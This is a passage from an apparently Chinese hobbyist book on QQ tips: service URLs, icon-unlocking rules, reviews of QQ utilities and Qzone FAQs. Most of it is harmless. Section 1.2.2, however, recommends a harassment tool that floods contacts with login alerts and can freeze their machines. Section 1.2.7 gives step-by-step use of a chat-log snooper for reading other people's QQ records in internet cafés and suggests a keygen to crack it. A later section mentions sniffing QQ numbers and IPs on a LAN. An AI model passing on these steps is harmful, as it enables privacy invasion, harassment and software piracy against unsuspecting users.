- Q歌Q魅：http://qgqm.qq.com/template/user_index.html?qq=QQ号码
- QQ相册：http://photo.qq.com/jump.htm?ownerid=QQ号码
- 群空间：http://group.qq.com/group_index.shtml?funcid=8&groupid=群号
- QQ问问：http://wenwen.soso.com/z/ShowUser.e?sp=SQQ号

##### 四、账号信息

- 申请QQ密码保护：http://service.qq.com/psw/mo.shtml?psw_id.htm
- 修改QQ密码保护资料：http://service.qq.com/psw/mo.shtml?psw_mdf.htm
- 重设QQ密码：http://service.qq.com/psw/mo.shtml?psw_cs.htm
- 申诉QQ号码：http://service.qq.com/psw/mo.shtml?psw_ss.htm
- 查询QQ号码申诉公告：http://service.qq.com/cgi-bin/announce

#### 1.1.20 QQ图标全攻略

QQ上的图标越来越多，令人眼花缭乱，有些业务还会提升自己在好友中的排名。面对一连串的图标，你是不是也心动过？可惜又苦于不知道如何点亮……下面就跟我一起去探秘QQ图标吧！

##### 各种图标点亮的方法

- 【Q吧】：当前Q吧积分≥0，在Q吧的社区档案登录并点击“点亮图标”按钮。  
  注：Q吧积分被扣至负分，或连续14日未登录并未阅读Q吧帖子，这两个条件满足其一，图标就会熄灭。
- 【QQ堂】：QQ堂积分达到500分以上即可点亮图标。
- 【财付通】：成功注册财付通并进行充值后，或注册后产生相关财付通交易均可点亮。
- 【QQLive】：使用后达到三颗星星级别以上即可。
- 【QQ会员】：开通会员服务即可，10元/月。
- 【QQ空间】：开通QQ空间即可，10元/月。
- 【QQ红钻】：开通红钻服务即可，10元/月。
- 【QQ黄钻】：开通黄钻服务即可，10元/月。
- 【QQ蓝钻】：开通蓝钻服务即可，10元/月。
- 【Q堂紫钻】：开通紫钻服务即可，10元/月。
- 【音速紫钻】：开通紫钻服务即可，10元/月。
- 【QQ粉钻】：开通粉钻服务即可，10元/月。
- 【QQ绿钻】：开通绿钻服务即可，10元/月。
- 【QQ黑钻】：开通黑钻服务即可，20元/月。

## 第一章 Q版黑客之黑客入门

注：需要使用 QQ2008 正式版才可以在 QQ 上看到黑钻图标。

- 【QQ宠物】：拥有 QQ 宠物即可。
- 【QQ音速】：该大区游戏人物等级达到 6 级，并且点亮图标时需要扣除 5 颗种子。
- 注：一个月内未活跃的用户将会自动熄灭 QQ 音速图标。
- 【QQ幻想】：QQ幻想角色达到 10 级以上即可。
- 【QQ三国】：游戏中，当师傅中至少有一个徒弟在线，并且徒弟等级达到 20 级后，方可点亮图标。
- 【QQ华夏】：QQ华夏游戏角色达到 25 级即可。
- 【QQ交友】：注册 QQ 交友服务即可。
- 【QQ家园】：使用 QQ 空间迷你屋即可。
- 【QQ相册】：注册并上传照片即可。
- 【QQ播客】：登录 Video 页面进行设置即可，免费开通。
- 【QQ邮箱】：使用 QQ 邮箱即可（默认为不点亮，在“邮箱设置”－“点亮邮箱图标”中可操作）。
- 【QQ书签】：1、必须将 QQ 更新到 2007 Beta3 以上版本；2、新的 QQ 书签用户，书签公开收藏数达到或者超过 10 条即可；3、如果你在更新 QQ2007 Beta3 之前已经是 QQ 书签的用户，并且公开收藏已经超过了 10 条，只要再收藏 1 条就可以点亮了。
- 【移动QQ】：开通超级 QQ 服务即可，10 元/月。
- 【手机QQ】：使用手机 QQ 软件登录即可。
- 【Q歌Q魅】：注册服务即可，目前暂时停止内测注册。
- 【会员炫铃】：开通会员服务后免费设置炫铃即可，会员功能。
- 【手机绑定】：使用手机与 QQ 绑定后即可，免费注册。
- 【3DQQ秀】：注册 3D 秀后，在 3D 秀商城购买物品，保存形象即可。
- 【视频标志】：电脑已安装视频设备，免费开通。
- 【短信超人】：开通短信超人服务即可，12 元/月。
- 【超级旋风】：QQ旋风积分达到 500 分以上即可。
- 【腾讯图书】：开通腾讯图书 VIP 服务即可，5 元/月。
- 【手机腾讯网】：使用手机登录手机腾讯网即可。
- 【腾讯拍拍网卖家】：在拍拍网通过卖家认证后即可（黄色“拍”字图标）。
- 【腾讯拍拍网会员】：在拍拍网上购买了 1 件商品，并成功进行财付通付款即可（蓝色“拍”字图标）。
- 【滔滔】：1、成功上传头像获得叨客身份证；2、成功邀请 5 名 QQ 好友加入滔滔，且成为自己的朋友；3、在滔滔的活跃天数达到 15 天。

注：点亮图标之后，如果 1 周内不发表唠叨（通过任何渠道发布均可，不一定是手机短信），则自动熄灭图标。再次点亮图标时，需要先取消手机关联后再重新关联一次。

- 【问问】：使用过就有资格点亮。
- 【自由幻想】：需要在 QQ 自由幻想中注册并拥有角色，接着完成转职任务后就可以点亮图标了。
- 【QQ音信】：1、使用 1 次或多次 QQ 音信业务；2、找到 1 位已经点亮 QQ 音信图标的用户，让他赠送一颗音信图标。获得赠送图标后，即可自动点亮 QQ 音信图标了。
- 【QQ飞车】：所有游戏角色达到 12 级 +1800 酷币的玩家都将自动点亮 QQ 飞车的图标。
- 【穿越火线（CF）】：图标可升级，按个人荣誉等级点亮对应图标。
- 【QQ炫舞】：在游戏内达到 10 个等级即可。
- 【QQTALK】：业务已下线，图标点亮规则撤消。

注：QQTALK 图标点亮的用户在之前的规则里是不支持取消的，所以无法取消该图标。

- 【QQ爱墙】：QQ 爱墙图标可通过用户间的赠送获得，获赠图标后将自动点亮爱墙图标。点亮爱墙图标后，还可获得系统赠送的 5 颗图标，用以赠送给其他爱墙用户，帮他人点亮图标。QQ 爱墙图标有效期为 2 个月，点亮图标后，每购买一张爱墙字条背景，即可将图标点亮时间延长 2 个月。
- 注：需安装 QQ2008 Beta1 或以上版本的 QQ，才能显示 QQ 爱墙图标。
- 【WAPQQ】：只要登录一次 WAPQQ 业务即成为 WAPQQ 的尊贵用户，图标则会在接下来的三个月中点亮。该图标点亮后不能取消。
- 【DNF】：通过 QQ 登录“地下城与勇士”，并且游戏角色等级达到 18 级，即可在官网点亮图标，并且不同的级别会有不同的级别标识。
- 【CFVIP】：暂时无法点亮。
- 【寻仙】：暂时无法点亮。
- 【QQ对战平台】：暂时无法点亮。

### 1.2 精选 QQ 工具

都说“用电脑其实就是用软件”，本节就选取了很多非常有趣的 QQ 软件推荐给大家。

### 1.2.1 QQ2009 preview3 试用

目前 QQ2009 preview3 正在公测，笔者当然也迫不及待地前去体验了一下。首先登录 http://im.qq.com/qq/2009/preview3/download.shtml? 来获得体验资格，只要输入号码进行提交即可，如图 48。



图 48

赶紧下载 QQ2009 preview3 吧，安装风格与以往相似，如图 49。但是在选择安装目录时增加自定义目录的选择，如图 50，这样一来，无论你怎样重装系统、重装 QQ，只要自己定义的目录没有删除，聊天记录以及图片等信息都可以长久存在。



图 49



图 50

打开登录界面，如图 51，还可以选择以前的经典登录窗口。我们来看看 QQ2009 的登录窗口，如图 52。



图 51



图 52


图 53

输入账号密码后登录，速度还是挺快的，QQ 主界面有点像 Vista 风格，如图 53。打开聊天窗口，很美观，如图 54。资料窗口更是完全变化，如图 55，用惯了以前的版本，对于一些新的改变还是有点不适应。

用了一会儿才发现，腾讯 QQ2009 貌似是将 TM 和 QQ 融合了，程序核心就是 TM。再来看看群聊窗口，如图 56，并且群共享在右侧显示，功能进一步强化。

我们再来看看设置的改变吧。打开“应用设置”，界面也令人眼前一亮，但更重要的是里面的设置内容也更加全面，如图 57。

特别是增加的个性化设置，如图 58，实在是贴心应手。界面可以根据个人喜好，打造得更加漂亮，相比 QQ 之前版本的个性皮肤，要好看多了。而且声音、偏好、情景模式都可以自定义，留给用户的空间更广，以前的很多功能现在更直观。

总的来说，QQ2009 的更新幅度还是蛮大的，界面更加绚丽多姿，而且在速度以及占用空间、界面方面，都比以前有了改进。并且在体验中没有发现广告，不知道以后的版本会不会添加。感觉还是不错的，大家也去体验一下吧。


图 54


图 55


图 56


图 57


图 58

#### 1.2.2 无限上下线骚扰器

大家都知道，QQ 上只要有好友登录就会有“咚咚咚”的响声，并且好友的头像在不停地闪动，利用这个来提醒大家：有人上线了！

无限上下线骚扰器就是利用了以上功能达到骚扰的目的，利用此程序，使你不断隐身然后再上线。而对方的电脑就会不断地发出“咚咚咚”的响声，并且你的头像不断闪动……轻则骚扰对方，重则卡掉对方！

QQ2008 正式版用户可以使用专用版，其他用户使用通用版。打开程序，如图 59，输入一个上下线频率就可以运行了。如需暂停，再按一下“运行”即可。


#### 1.2.3 录制QQ视频

目前 QQ 视频聊天已经十分普及，但是视频内容能否永久保存呢？我们请出这款名为 Quick Screen Recorder 的软件来完成录制功能吧。

打开软件，如图 60，界面十分小巧简洁。我们首先来看看“常规选项”，如图 61，其中的“普通区域”采用鼠标选取录制窗口的大小；“固定区域”为指定大小的录制窗口，我们录制 QQ 视频就采用这种方式；“全屏”，顾名思义，也就是录制整个屏幕了。


建议选择“在开始录制时最小化程序”，以及“在录制时隐藏闪动的矩形”，以免影响录制的画面。

视频录制当然最关心视频质量了，我们打开“视频选项”，如图 62，在这里可以选择压缩方式以及帧率的设置。如果你想同时保存声音，那就在“音频设置”中选择“录制音频”，如图 63。


一切设置好后，我们按录制器上的红色圆圈按钮即可开始录制，当然也可以使用热键：**开始 F8，停止 F9，退出 ESC**。

开始后，会出现一个矩形区域，如图 64，我们把这个区域调整到 QQ 的视频窗口。调整好尺寸大小，点击鼠标左键即可开始录制。录制完成后程序会提示你保存，保存的文件格式为 avi，这样以后你就可以珍藏那些宝贵的视频画面了！


#### 1.2.4 QQ好友备份器

万一 QQ 号码被盗，而又忘记账号保护，那 QQ 上面的那些好友可能都会因此而丢失。为避免以上事件发生，最好的方式就是提前备份一份你所有 QQ 好友的号码。QQ 好友备份器可以提取你好友的号码以及昵称，然后保存。

打开 QQ 好友备份器，如图 65，点击“读取好友”，然后选择你要备份的 QQ 号，这时 QQ 好友备份器会自动列出全部好友。最后点击保存，如图 66，此时在软件所在目录生成一个“QQ好友备份.txt”的文件，里面存放的就是你的所有好友，好好保存这个文件吧。


#### 1.2.5 聊天记录备份

聊天记录备份软件可以压缩备份 QQ 聊天文件夹，将指定 QQ 的聊天记录、图片等进行备份，解决重装系统、更换计算机等造成的记录丢失问题。

打开软件，如图 67，首先选择 QQ 安装目录，然后输入或选择 QQ 号码。接着在备份内容中，可以选择“备份全部信息”（就是把你整个 QQ 号码的文件夹备份，里面的表情图片、聊天图片、快捷键设置等都会备份）或“只备份聊天文字”，备份位置自己选择。

之后点击“备份”按钮进行备份，当弹出如图 68 的提示就备份成功了，可以把备份数据放在 U 盘中随身携带。如果要恢复备份，先设置要恢复的 QQ 号和安装路径，再点击“恢复”即可（备份文件必须与恢复 QQ 号一致，否则不能恢复），如图 69。


#### 1.2.6 QQ贴图王

有许多站长为了与用户即时沟通，经常会在自己的网站上添加如图 70 这样的链接，访问者通过这些图片可以知道站长的在线状态，通过这个链接还可以使用 QQ 临时对话框与站长随时沟通。


你想不想为自己制作一个这样的链接，放在主页或论坛的个性签名中呢？我们来打开 QQ 贴图王，让它帮我们实现这一功能。首先选择一个你认为好看的图片风格，如图 71。


然后切换到填写相关信息的页面上，如图 72，输入你的 QQ 号码、网站以及留言信息，最后按照你的需要生成相应的代码。


图 72

##### 网页代码：

```text
[img]http://wpa.qq.com/pa?p=1:383605010:11[/img]
[url=http://wpa.qq.com/msgrd?V=1&Uin=383605010&Site=www.plstar.cn&Menu=yes]有事点这里[/url]
```

##### 论坛代码：

```html
<a target=blank href=http://wpa.qq.com/msgrd?V=1&Uin=383605010&Site=www.plstar.cn&Menu=yes></a>
```

使用网页代码可以将您制作的 QQ 贴图放到 QQ 空间的留言上去，如图 73，怎么样？你也去试试吧！


图 73

#### 1.2.7 QQ聊天记录偷看器

大家都知道 QQ 聊天记录存放在本地的 MsgEx.db 文件中，只要破解了这个文件，不就可以轻松得到里面的聊天记录了吗？当你 QQ 号被盗，而有些重要聊天记录不能查看时，或者你在 QQ 网吧想偷看一下其他人的聊天记录时，使用 QQ 聊天记录偷看器就可以轻松搞定啦！

打开 QQ 聊天记录偷窥器，如图 74，如果没有注册，可以使用一下注册机，如图 75。打开程序后再运行注册机，即可计算出注册码，填写进去注册即可长久享受了。


图 74


图 75

下面我们就来偷窥聊天记录。点击“查看”，如图 76，选择需要查看的 QQ 号码，然后按“确定”即可。


图 76

现在，在左边一栏就会出现所查看号码的好友了。点击这些好友的 QQ 号就可以看到他们之间的聊天记录，如图 77。查看方式简单方便，并且能查看“群组消息”“系统消息”和“临时消息”等。

另外，还能在聊天记录上按鼠标右键，把聊天记录以文本格式导出，如图 78，可以通过记事本来保存。

此软件的收发图片在聊天记录中不会显示，被单独保存在了“图片信息”中，点击即可查看，如图 79。


图 77


图 78


图 79

#### 1.2.8 QQ百宝箱

QQ 百宝箱虽然是一款小工具，但是麻雀虽小，却五脏俱全，此软件里面就包含了许多实用的功能。

- 1. QQ 自动登录功能，如图 80，使用此功能可以设定自动登录多个 QQ，免去了重复使用 QQ 登录窗口的操作。另外，可以利用该软件记住你的账号密码，作为你的安全登录器。因为此程序采用了本地不可逆加密处理，保障了我们 QQ 号码的安全。首次登录需要添加账号密码，如图 81，之后直接点击“登录”即可。
- 2. QQ 病毒扫描，如图 82，此功能通过调用 QQ 自带的病毒扫描功能，脱离 QQ 对病毒进行扫描。
- 3. 百宝箱功能，如图 83，为我们提供了与任意 QQ 及 TM 账号聊天、查询是否在线、查看 QQ 秀、Q-Zone、QQ 相册等功能。
- 4. 号码评估功能，这就不多做介绍了，完全是为了娱乐（评估方法：按号码位数评估，结果不准确，没什么意思）。
- 5. 网络追踪功能，如图 84。如果你身处局域网或者网吧，可以尝试一下这个功能，通过网络追踪，可以嗅探到和你身处同一环境的 QQ 号码以及 IP 地址，方便你与他们取得联系。
- 6. QQ 音乐盒，可以使我们免费直接收听 QQ 音乐盒的节目，如图 85。
- 7. QQ 隐私保护功能，如图 86，很好地解决了别人偷看自己聊天记录的问题，可以帮你删除自己的聊天记录以及登录痕迹，让别人想看没处看。


#### 1.2.9 QQ防盗登录器

QQ 密码丢失是一个很严重的情况，又是一个经常发生的情况。为了我们 QQ 号码的安全，应该采取点措施来进行保护，QQ 防盗登录器就是一个不错的选择。

这是一个简单的软件，如图 87，但是功能却不简单，据说程序采用了多种加密方式。

## 第一章 QQ版黑客之黑客入门

过防盗器登录QQ，避免了许多木马程序的骚扰，让我们远离盗号木马。在登录器上输入账号以及密码，然后选择登录方式就可以登录QQ了。


图87

软件还提供了QQ的增强功能，比如QQ强聊、清除QQ号记录等，如图88。


图88

#### 1.2.10 QQ七彩文字

QQ七彩文字集合了许多款漂亮的文字表情，例如“1000个常用汉字”“手写字”“可爱字体”“水果饼干体”等。当在QQ聊天时使用这些文字表情，会为你的聊天增添许多乐趣。


图89

我们打开程序，如图89，界面简洁明了。选择你喜爱的表情字体，按鼠标左键，程序会提示你是否安装？确定后所有的表情就会自动导入到你QQ的相应目录了，如图90、图91，这些表情文字会出现在QQ聊天窗口中的表情里。


图90


图91

现在，只要我们选择“使用自定义快捷键”，就可以使用这些表情文字了，如图92。


图92

看看效果吧，如图93，怎么样，比原来好看多了吧？在这里建议网速较差的朋友不要使用，毕竟图片的发送在速度上慢于文字，甚至有些时候图片无法显示。如要取消这些“七彩文字”，只需取消“使用自定义快捷键”即可。


图93

#### 1.2.11 QQ查询器

QQ查询器可以帮助我们快速便捷地查询指定QQ的相关信息，界面如图94。先输入需要查询的QQ号码，然后就可以查询在线状态、QQ秀等信息了。


图94

查询在线状态后会以文字形式提示，并且可以与陌生人聊天，还能查看QQ秀、QQ秀收藏（如图95）、QQ秀合影，把对方的QQ秀信息了如指掌。


图95

另外，还可以不用登录QQ即可查看QQ宠物的所有信息，如图96，宠物的等级、成长值、名称等信息尽收眼底。


图96

QQ空间的音乐也可以用这款小工具查看，并且在音乐名称上通过按鼠标右键查看“属性”，还可以看到收藏音乐的URL地址，如图97。粉、黄、绿钻是否开通也可以通过它来查询，如图98。


不仅如此，这款小工具还可以用来快速访问QQ空间、QQ相册及查看QQ书签、QQ博客……通过点击下面的面板伸缩箭头，还可以快速访问一些常用的QQ网站功能，比如申请QQ号码、申诉QQ号码、QQ秀、积分地带、安全中心等，如图99。

#### 1.2.12 QQ增强工具包——FinePlus

FinePlus（原FreePlus）是一款QQ辅助软件，必须在有原版QQ2008的情况下才能使用。使用此工具可以查看QQ IP地址、去除QQ广告、整理内存等。打开“fineplus.exe”这个程序即可通过fineplus登录QQ，首先映入眼帘的是一个QQ会员的欢迎窗口，如图100，从这里可以看到你上次登录的IP地址，及时发现是否被盗号。


打开QQ聊天窗口，你会发现广告画面消失了，取而代之的是对方的IP地址以及QQ版本显示，如图101。

而且通过点击鼠标右键还可以进行详细设置，例如在界面优化中可以选择隐藏个性签名、禁止下载QQ秀、清理主面板标签等；在性能优化中可以整理内存、文件清理……如图102。如果你想更加直观地进行设置，可以在辅助工具中选择详细设置，如图103，在这里你可以更加直观详细地进行设置。


图102


图103

有了此工具后，以后在“设置”－“系统设置”－“登录设置”中即可选择会员登录设置项，可以过滤广告，取消显示腾讯网迷你首页，使用会员VIP服务器登录等，如图104。

#### 1.2.13 QQ空间小秘书

想要自己的空间活起来，互踩不失为一种不错的方法。可QQ空间里东西太多的话就要花费很多时间，有时还碰上堵塞，使人头疼。而QQ空间小秘书可以帮你解决这个问题，让你快速写日志、转载和留言。


图104

##### QQ空间小秘书拥有许多实用功能：

- 1. 无需进入QQ空间即可为自己写日志、写心情。
- 2. 您还可以快速给别人留言和回复别人的日志。
- 3. 还可以快速阅读对方所有日志，并能转载到自己空间。
- 4. 您可以使用它查看别人日志使用的代码，提倡共享。
- 5. 您也可以自行定制各种个性留言，并能保存以便随时使用。
- 6. 支持多条留言自动循环使用，您也可以成为互踩高手。
- 7. 支持快捷键功能，让您的留言更方便，互踩更容易。
- 8. 新增多种彩色发光字功能，让您的留言更加绚现。
- 9. 新增了QQ空间好友互踩列表，让你群踩更加协调。
- 10. 新增了超级互踩功能，每时每刻都有上千人参与互踩。

首先打开QQ空间小秘书，然后登录，如图105。


图105

我们可以通过这个软件发表日志，在第一行输入你要踩的空间的QQ号，然后填写内容，并且还可以自由地在繁体与简体之间转换。完成之后只需点击“发表留言”即可，然后更改QQ号码，一篇多发，或是点击“随机互踩”来发送，如图106。


图106

使用此软件，不但可以留言以及发表日志，浏览日志和转载日志的功能更是轻而易举。登录软件后，在第一行输入你要浏览日志的QQ空间的QQ号，点击“列表”，这时，此QQ空间的日志会全部显示出来，这样你就可以找一篇点击“阅读”了，如图107，可以看到此日志的全部信息。


图107

通过使用“效果预览”还能查看发光字的效果，同QQ空间一模一样，如图108。使用此软件还会用到一些常用功能快捷键：

- F5 打开我的日志；
- F6 打开我的留言；
- F8 QQ空间管理；
- F9 保存内容；
- F12 快速登录QQ；
- Ctrl+F 智能留言；
- Ctrl+S 回复日志；
- Ctrl+A 发表留言；
- Ctrl+D 互踩队列；
- 空白键 发表留言；
- 回车键 回复日志。

### 1.3 打造完美QQ空间

Qzone是一个专属于您自己的个性空间，是一种为崭新人类提供的全新网络生活方式。拥有Qzone就可以拥有网络日志、相册、音乐盒、神奇花藤、互动等专业动态功能，更可以合成自己喜欢的个性大头贴。这其中还精心为您准备了各式各样的皮肤、漂浮物、挂件等大量装饰物品，您可以随心所欲更改空间装饰风格，让您的Qzone够炫、够In，书写你的心情，释放你的精彩！

#### 1.3.1 QQ空间常见问题

Q：我的Qzone进不去了怎么办？  
A：请您确认您的网络状况良好后（可以尝试访问www.qq.com来看看哦！），尝试按以下步骤解决：

- 1. 一定要清除IE垃圾！这可以帮助您解决很多访问上的问题哦！清除方法：点击IE浏览器中的“工具”，选择“Internet选项”，在“常规”页面点击“删除文件”，然后勾上“同时删除脱机内容”，最后“确定”。
- 2. 点击IE浏览器中的“工具”，选择“Internet选项”，进入“安全”页面，点击“自定义级别”，对“对标记为可安全执行脚本的ActiveX控件执行脚本”设置为“启用”。
- 3. 您可以尝试暂时关闭相关上网助手等，再进入QQ空间进行访问。如果可以访问，请检查您的上网助手设置。
- 4. 确认您的防火墙没有阻止Qzone.exe访问网络。

Q：为什么我打开空间就会跳到其它网站？  
A：您可以按照以下方法进行解决：  
进入空间的音乐盒，打开播放列表。逐个点击已添加在播放列表中的音乐的播放按钮，找到点击播放时会弹出网站的音乐（通常是播放列表中的第一首）。将会弹出网页的音乐从播放列表中删除，同时进入音乐收藏，找到相应的歌曲，删除即可。  
如果播放列表中未有会弹出网页的音乐，请您再检查您音乐收藏中的音乐，及首页模块中添加的视频或Flash链接。

Q：请问空间打开后怎么有时字体变大或变小？  
A：您可以按照以下方法进行解决：  
打开您的空间，依次选择IE或TT等浏览器的“查看”－“文字大小（X）”－“中（M）”即可！

Q：为什么我在空间发表的日志没有在QQ上更新？  
A：请先检查您的空间是否设置了密码访问，或空间密友可进。为保护您的个人隐私，在这两种进入权限设置下，您空间的更新是不会更新到QQ上的。如果您的空间设置为“全公开”时仍然没有更新，可能是当时网络繁忙导致，建议您再发表一篇进行尝试。

Q：我的自定义被插件（或其它）挡着了，怎么办呢？  
A：使用快捷键Ctrl+J即可进入自定义模式，您就可以把插件移开了。

Q：我购买的东西为何没有加营养分？  
A：如果您没有成功添加，请您核实是否是如下原因：  
您是否是用手机购买的相关空间物品？很抱歉，手机购买QQ空间物品暂时是不支持添加营养指数的。  
是否是好友为您赠送或您找好友索要的物品？营养指数暂时只支持为支付Q币方进行添加。  
如果您的营养指数已经达到了200，而其它指数未达到200，营养指数不会再增加。

#### 1.3.2 Qzone小诊所

QQ空间有时候登录速度会非常慢，而且登录之后还会出现这样那样的显示问题，比如Flash动画无法显示、图片无法显示等。当你遇到这些情况时该怎么办呢？你可以登录Qzone小诊所（http://imgcache.qq.com/qzone/check/）来检查一下！

通过这个小诊所，我们可以轻松解决一些系统设置导致QQ空间无法正常访问的小问题，如图109。如果你的电脑登录QQ空间也有些问题，不妨来做一个诊断吧！


图109

#### 1.3.3 千变万化——我的空间

你有了空间，但空间内容不更新，你的空间很快就会变成“太平间”了！但是怎么样让自己的空间内容丰富多彩，能够吸引更多的人气呢？下面我就为大家支几招。

#### 二、应用模块添加

进入空间后，点击右上角的“自定义”选项，这时在空间右侧会出现自定义选项。单击“模块管理”，在下面的设置窗口中找到需要添加的应用模块，比如“精彩博文”以及“股市行情资讯”，如图110。


图110

选择相关的应用模块（在前面小框中打勾）然后提交即可，这样你就拥有了一些随时更新的内容了，然后再拖动添加的模块到一个恰当的位置进行保存就OK啦！

##### 二、转载日志

转载日志无疑是最简单的更新空间内容的方法，当你浏览别人空间的时候，欣赏到一篇特别精彩的文章，点点鼠标即可轻松把它转载到你自己的空间。

